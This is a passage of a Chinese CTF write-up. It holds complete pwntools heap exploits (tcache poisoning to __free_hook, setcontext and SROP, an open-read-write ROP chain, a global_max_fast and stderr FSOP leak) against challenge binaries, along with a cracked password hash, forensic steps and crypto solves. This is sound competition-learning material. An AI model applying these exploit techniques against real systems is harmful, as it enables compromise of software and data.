add(14, 0x110)
delete(13)
delete(9)
show(8)
io.recvuntil("Content: ")
heap_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x010 -0x880
success("heap_base:\t" + hex(heap_base))
free_hook = libc_base+libc.symbols["__free_hook"]
edit(8, bin((free_hook))[2:][::-1].ljust(64, '\x00'))
add(9, 0x110)
add(11, 0x110)
setcontext = libc_base + libc.symbols["setcontext"] + 53
pop_rdi_ret = libc_base + 0x000000000002164f
pop_rsi_ret = libc_base + 0x0000000000023a6a
pop_rdx_r12_ret = libc_base + 0x0000000000130514
pop_rax_ret = libc_base + 0x000000000001b500
syscall = libc_base + 0x00000000000d2625
flag = bin(0x67616c662f2e)[2:].rjust(64, '\x00').encode()[::-1]
edit(1,flag)
frame = SigreturnFrame()
frame.rsp = heap_base + 0x6f0
frame.rdi = 0
frame.rsi = heap_base + 0x6f0
frame.rdx = 0x200
frame.rip = libc.symbols["read"] + libc_base
orw = p64(pop_rdi_ret) + p64(3)
orw += p64(pop_rax_ret) + p64(0x2710)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(heap_base + 0x530)
orw += p64(pop_rsi_ret) + p64(0)
orw += p64(pop_rax_ret) + p64(2)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(3)
orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0)
orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
orw += p64(pop_rax_ret) + p64(0)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(1)
orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0)
orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
orw += p64(pop_rax_ret) + p64(1)
orw += p64(syscall)
edit(11, bin((setcontext))[2:][::-1].ljust(64, '\x00'))
bin_frame = convert(bytes(frame))
add(12, 0x98)
edit(12, bin_frame[0:0x98*8])
add(15, 0x98)
edit(15, bin_frame[0xa0*8:])
delete(12)
io.send(orw)
io.interactive()
```

## bitheap
这道题和sandboxheap一样，而且还没有这道题的沙箱保护，用上道题的exp直接打就可以拿到flag
exp
```python
from pwn import *
context(os = "linux", arch = "amd64", log_level = "debug")

#io = process(["./sandbox", "./sandboxheap"])
io = remote("101.201.71.136", 44997)
elf = ELF("./bitheap")
libc = ELF("./libc-2.27.so")

def add(idx, size):
    io.sendlineafter("Your choice: ", "1")
    io.sendlineafter("Index: ", str(idx))
    io.sendlineafter("Size: ", str(size))

def edit(idx, content):
    io.sendlineafter("Your choice: ", "2")
    io.sendlineafter("Index: ", str(idx))
    io.sendafter("Content: ", content)

def show(idx):
    io.sendlineafter("Your choice: ", "3")
    io.sendlineafter("Index: ", str(idx))

def delete(idx):
    io.sendlineafter("Your choice: ", "4")
    io.sendlineafter("Index: ", str(idx))

def convert(st):
    tar=""
    for i in st:
        b=(bin(i)[2:].rjust(8,'\x00')[::-1])
        tar+=b
    return tar

for i in range(11):
    add(i, 0x88)

for i in range(7):
    delete(i)

delete(7)

edit(8, b'1' * 0x80 * 8 + b'00000100' + \
     b'10000000' + b'00000000' * 6 + b'00000000')

delete(9)

for i in range(7):
    add(i, 0x88)

add(7, 0x88)
show(8)
libc_base = u64(io.recvuntil("\x7f")[-6:].ljust(8, b'\x00')) - 0x3ebca0
success("libc_base:\t" + hex(libc_base))

add(9, 0x110)
add(13, 0x110)
add(14, 0x110)

delete(13)
delete(9)

show(8)
io.recvuntil("Content: ")
heap_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x010 -0x880

success("heap_base:\t" + hex(heap_base))

free_hook = libc_base+libc.symbols["__free_hook"]

edit(8, bin((free_hook))[2:][::-1].ljust(64, '\x00'))

add(9, 0x110)
add(11, 0x110)

setcontext = libc_base + libc.symbols["setcontext"] + 53

pop_rdi_ret = libc_base + 0x000000000002164f
pop_rsi_ret = libc_base + 0x0000000000023a6a
pop_rdx_r12_ret = libc_base + 0x0000000000130514
pop_rax_ret = libc_base + 0x000000000001b500
syscall = libc_base + 0x00000000000d2625

flag = bin(0x67616c662f2e)[2:].rjust(64, '\x00').encode()[::-1]

edit(1,flag)

frame = SigreturnFrame()
frame.rsp = heap_base + 0x6f0
frame.rdi = 0
frame.rsi = heap_base + 0x6f0
frame.rdx = 0x200
frame.rip = libc.symbols["read"] + libc_base

orw = p64(pop_rdi_ret) + p64(heap_base + 0x530)
orw += p64(pop_rsi_ret) + p64(0)
orw += p64(pop_rax_ret) + p64(2)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(3)
orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0)
orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
orw += p64(pop_rax_ret) + p64(0)
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(1)
orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0)
orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
orw += p64(pop_rax_ret) + p64(1)
orw += p64(syscall)

edit(11, bin((setcontext))[2:][::-1].ljust(64, '\x00'))

bin_frame = convert(bytes(frame))

add(12, 0x98)
edit(12, bin_frame[0:0x98*8])

add(15, 0x98)
edit(15, bin_frame[0xa0*8:])

delete(12)
io.send(orw)
io.interactive()
```
## leak
flag被读到了一个堆块上，限制了申请堆块的个数，只能十六个，没有限制uaf的使用次数，可以改大Global_Max_Fast，造成fastbinY数组溢出，我们可以向write_base和write_ptr上写入堆地址，满足条件:write_ptr>write_base即可，利用公式size=((target_addr-(main_arena+8)/8)*0x10+0x20)，就可以算出需要的size，最后exit，打印出flag即可。
```python
from pwn import *
io = process("./leak")
elf = ELF("./leak")
libc = ELF("./libc-2.27.so")

context.arch = "amd64"
context.log_level = "debug"

def add(idx,size):
    io.sendlineafter("Your choice: ", "1")
    io.sendlineafter("Index: ", str(idx))
    io.sendlineafter("Size: ", str(size))

def edit(idx, content):
    io.sendlineafter("Your choice: ", "2")
    io.sendlineafter("Index: ", str(idx))
    io.sendafter("Content: ", content)

def delete(idx):
    io.sendlineafter("Your choice: ", "3")
    io.sendlineafter("Index: ", str(idx))

add(0, 0x14b0)
add(1, 0x14c0)
add(2, 0x430)
add(3, 0x90)
add(4, 0x90)
add(5, 0x90)
add(9, 0xa0)
add(10, 0xa0)

delete(5)
delete(4)
delete(3)

edit(3, p16(0x9c30))  # tcache fd -> unsorted bin chunk
delete(2)
edit(2, p16(0xf940))  # fd -> global_max_fast

add(6, 0x90)
add(7, 0x90)

add(8, 0x90)
edit(8, p64(0xdeadbee0))  # global_max_fast -> 0xdeadbeef

delete(0)

edit(2, p16(0xe840))  # tcache fd -> unsorted chunk

delete(10)
delete(9)

edit(9, p16(0x9c30))  # fd-> stderr

add(11, 0xa0)
add(12, 0xa0)

add(13, 0xa0)  # stderr
add(14,0xa0)# change stderr

edit(14, p64(0xfbad1887) + p64(0) * 3 + p8(0x50))
#io.interactive()

#add(14, 0x14d0)
#add(15, 0x500)
delete(1)

io.sendlineafter("Your choice: ", "6")
io.interactive()

```
# Misc
## strange_forensics
flag1是用户密码，直接搜root:
爆破出密码
$1$C5/bIl1n$9l5plqPKK4DjjqpGHz46Y/:890topico
flag3直接是明文


stings发现里面有个secret.zip

用vol的插件提取linux_recover_filesystem，得制作一个同内核的profile，strings找到镜像系统Ubuntu18.04.5 5_4_0-84-generic
开一个虚拟机，apt安装好kernel，然后再vol的tools里生成profile并且打包好放进vol的插件里
测试可以用了以后就可以linux_recover_filesystem去
导出zip文件，打开是损坏的，010修复一下，修改一下加密位
爆破出密码为123456拿到flag2  _y0u_Ar3_tHe_LIn
最后拿到flag
flag{890topico_y0u_Ar3_tHe_LInUx_forEnsIcS_MASTER}

# Rev
## roket
测试输入数据和输出数据寻找规律发现是输入转ascii码然后三次方得到输出
```python
from Crypto.Util.number import long_to_bytes
import gmpy2
print(gmpy2.iroot(7212272804013543391008421832457418223544765489764042171135982569211377620290274828526744558976950004052088838419495093523281490171119109149692343753662521483209758621522737222024221994157092624427343057143179489608942837157528031299236230089474932932551406181, 3))
#6374667b746831735f69735f7265346c6c795f626561757431666c795f72316768743f7d
a='6374667b746831735f69735f7265346c6c795f626561757431666c795f72316768743f7d'
for i in range(0,len(a),2):
    print('0x'+a[i]+a[i+1],end=',')
print('flag:')
#0x63,0x74,0x66,0x7b,0x74,0x68,0x31,0x73,0x5f,0x69,0x73,0x5f,0x72,0x65,0x34,0x6c,0x6c,0x79,0x5f,0x62,0x65,0x61,0x75,0x74,0x31,0x66,0x6c,0x79,0x5f,0x72,0x31,0x67,0x68,0x74,0x3f,0x7d
b=[0x63,0x74,0x66,0x7b,0x74,0x68,0x31,0x73,0x5f,0x69,0x73,0x5f,0x72,0x65,0x34,0x6c,
0x6c,0x79,0x5f,0x62,0x65,0x61,0x75,0x74,0x31,0x66,0x6c,0x79,0x5f,0x72,0x31,0x67,
0x68,0x74,0x3f,0x7d]
for i in range(len(b)):
    print(chr(b[i]),end='')
```

# crypto
## little little fermat
题名提示了费马，并且分析p和q的生成过程可知，A相比于n是不算太大的；遂直接考虑费马分解n，得到p，q以后根据assert 114514 ** x % p == 1可知x为p-1或p-1的整数倍，直接取x为p-1进行计算，异或就能得到flag。
```python
from Crypto.Util.number import *
from gmpy2 import *
n = 141321067325716426375483506915224930097246865960474155069040176356860707435540270911081589751471783519639996589589495877214497196498978453005154272785048418715013714419926299248566038773669282170912502161620702945933984680880287757862837880474184004082619880793733517191297469980246315623924571332042031367393
c = 81368762831358980348757303940178994718818656679774450300533215016117959412236853310026456227434535301960147956843664862777300751319650636299943068620007067063945453310992828498083556205352025638600643137849563080996797888503027153527315524658003251767187427382796451974118362546507788854349086917112114926883

def fermat(num):
    x = iroot(num, 2)[0]
    if x * x < num:
        x += 1
    # y^2 = x^2 - num
    while (True):
        y2 = x * x - num
        y = iroot(y2, 2)[0]
        if y * y == y2:
            break
        x += 1
    result = [int(x + y), int(x - y)]
    return result
l = fermat(n)
p = l[0]
q = l[1]
x = p-1
e = 65537
d = invert(e,(p-1)*(q-1))
tmp = pow(c,d,n)
print(long_to_bytes(tmp^(x**2)))
```
## tracing
题目自己实现了求公因数的算法gcd，主要是通过分支语句，加减法和移位操作来实现的；而trace.out文件则是类似于debug，打印了gcd算法整个过程的分支执行情况，所以我们只要用最后的a和b的值去反推整个算法，得到phi解密即可。
```python
from Crypto.Util.number import long_to_bytes
from gmpy2 import invert
c = 64885875317556090558238994066256805052213864161514435285748891561779867972960805879348109302233463726130814478875296026610171472811894585459078460333131491392347346367422276701128380739598873156279173639691126814411752657279838804780550186863637510445720206103962994087507407296814662270605713097055799853102
n = 113793513490894881175568252406666081108916791207947545198428641792768110581083359318482355485724476407204679171578376741972958506284872470096498674038813765700336353715590069074081309886710425934960057225969468061891326946398492194812594219890553185043390915509200930203655022420444027841986189782168065174301
e = 65537
f = open('trace.txt','r')
data = f.read().split('\n')[::-1]
def attack_phi(c):
    a = 1
    b = 0
    for word in c:
        if 'a, b =' in word:
            b ,a = a,b
        if 'rshift1(a)' in word:
            a<<=1
        if 'rshift1(b)' in word:
            b<<=1
        if 'a = a - b' in word:
            a=a+b
    return a
phi = attack_phi(data)
d = invert(e,phi)
print(long_to_bytes(pow(c,d,n)))
```

## fill
利用lcg的三组连续输出求出参数m和c，从而得到整个序列s，反求出序列M；然后就是一个背包的破解，lll算法求最短向量即可，构造方式参考：https://www.ruanx.net/lattice-2/，exp：
```python
M = [19620578458228, 39616682530092, 3004204909088, 6231457508054, 3702963666023, 48859283851499, 4385984544187, 11027662187202, 18637179189873, 29985033726663, 20689315151593, 20060155940897, 46908062454518, 8848251127828, 28637097081675, 35930247189963, 20695167327567, 36659598017280, 10923228050453, 29810039803392, 4443991557077, 31801732862419, 23368424737916, 15178683835989, 34641771567914, 44824471397533, 31243260877608, 27158599500744, 2219939459559, 20255089091807, 24667494760808, 46915118179747]
S = 492226042629702
n = len(M)
L = matrix.zero(n + 1)

for row, x in enumerate(M):
    L[row, row] = 2
    L[row, -1] = x

L[-1, :] = 1
L[-1, -1] = S
res = L.LLL()
print(res)
# python
from Crypto.Util.number import *
from hashlib import *
nbits = 32
M = [19621141192340, 39617541681643, 3004946591889, 6231471734951, 3703341368174, 48859912097514, 4386411556216, 11028070476391, 18637548953150, 29985057892414, 20689980879644, 20060557946852, 46908191806199, 8849137870273, 28637782510640, 35930273563752, 20695924342882, 36660291028583, 10923264012354, 29810154308143, 4444597606142, 31802472725414, 23368528779283, 15179021971456, 34642073901253, 44824809996134, 31243873675161, 27159321498211, 2220647072602, 20255746235462, 24667528459211, 46916059974372]
s0,s1,s2 = 562734112,859151551,741682801
n = 991125622
m = (s2-s1)*inverse(s1-s0,n)%n
c = (s1-s0*m)%n
s = [0] * nbits
s[0] = s0
for i in range(1, nbits):
    s[i] = (s[i-1]*m+c)%n
print(s)
for t in range(nbits):
    M[t] = M[t] - s[t]
print(M)
# 注意是反向量
short = '00101000011000010001000010011011'
short2 = ''
for i in short:
    if i == '0':
        short2 = short2 + '1'
    else:
        short2 = short2 +'0'
print(short2)
print(len(short2))
num = int(short2,2)
print(sha256(str(num).encode()).hexdigest())
```
## babyDLP
CryptoCTF2022的原题side step，参考春哥的解法：https://zhuanlan.zhihu.com/p/546270351 exp需要修改两个地方，1是if ('Great!' in a):需要加上b，其次是a = a[9:]改为a = a[8:] 。然后直接打即可：
```python
from pwn import *
from sage.all import *
from Crypto.Util.number import *


class Gao:
    def __init__(self):
        self.con = remote('101.201.71.136', 16265)
        self.p = 2 ** 1024 - 2 ** 234 - 2 ** 267 - 2 ** 291 - 2 ** 403 - 1
        self.s_high = 1
        self.Zp = Zmod(self.p)
    
    def gao_check(self):
        self.con.sendline('T')
        ans = self.Zp(4).nth_root(self.s_high)
        print('Guessing: {}'.format(ans))
        self.con.sendline(str(ans))
        self.con.recvuntil('integer: \n')
        a = self.con.recvline()
        if (b'Great!' in a):
            print(a)
            print(ZZ(ans).nbits())
            return True
        else:
            return False

    def gao_one(self):
        self.con.sendline(b'T')
        ans = self.Zp(2).nth_root(self.s_high)
        self.con.sendline(str(ans))
        self.con.recvuntil(b'integer: \n')
        a = self.con.recvline()
        if (b'Great!' in a):
            print(a)
            print(ZZ(ans).nbits())
            return True
        else:
            a = a[8:]
        t, r = eval(a)
        self.s_high <<= 1
        if (t == 0):
            self.s_high |= 1
        self.t = 1 - t
        #print('{:b}'.format(self.s_high))
        return False


    def gao(self):
        while (True):
            if (self.gao_one()):
                break
            if (self.t == 1):
                if (self.gao_check()):
                    break
    
    def gao_2(self):
        for i in range(1023):
            if (self.gao_one()):
                break
        else:
            for i in range(20):
                self.gao_check()
                self.s_high >>= 1

if __name__ == '__main__':
    g = Gao()
    g.gao_2()
```